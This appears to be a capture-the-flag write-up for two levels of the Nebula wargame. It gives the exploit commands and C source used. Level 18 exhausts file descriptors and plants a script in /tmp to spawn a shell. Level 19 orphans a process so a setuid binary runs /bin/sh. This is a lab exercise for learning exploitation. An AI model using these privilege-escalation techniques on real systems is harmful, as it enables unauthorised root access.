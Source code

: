 #### 0x18 level18
    mykey:
        python -c 'print "login iii\r\n"*50+"closelog\r\n"+"shell\r\n"' | /home/flag18/flag18 --rcfile -d log -v -v -v
        out:'Starting can not find'
            ... can not find
            ... can not find
        cd /home/flag18
        vi log
        -----content------
        Starting up. ......
        something ....
        ------end---------

        vi /tmp/Starting
        ----Starting---
        /bin/flag > /tmp/level18.out
        -----end-------
        
        *****attention:*****
        not not forget to:
        chmod +x /tmp/Starting
        *******end*******

        python -c 'print "login iii\r\n"*50+"closelog\r\n"+"shell\r\n"' | /home/flag18/flag18 --rcfile -d log -v -v -v
        vi /tmp/level18.out

    link knowledge:
        https://v0ids3curity.blogspot.kr/2012/09/exploit-exercise-improper-file-handling.html

#### 0x19 level19
    mykey:
        on kali(192.168.3.106)
            vi /tmp/level19.c
            ------------level19.c-------------
            #include <stdio.h>
            #include <stdlib.h>
            #include <unistd.h>
            #include <time.h>
            #include <sys/types.h>
            int main(void)
            {
                pid_t pid;
                char* args[]={"/bin/sh","-c","getflag > /tmp/level19.out",NULL};
                pid=fork();
                if (pid==0)
                {
                    nice(19);
                    execve("/home/flag19/flag19",args,NULL);
                }
                else if (pid<0)
                {
                     printf("Ups\n");
                }
                else
                {
                     exit(1);
                }
                return 0;
            }
            --------------end---------------
            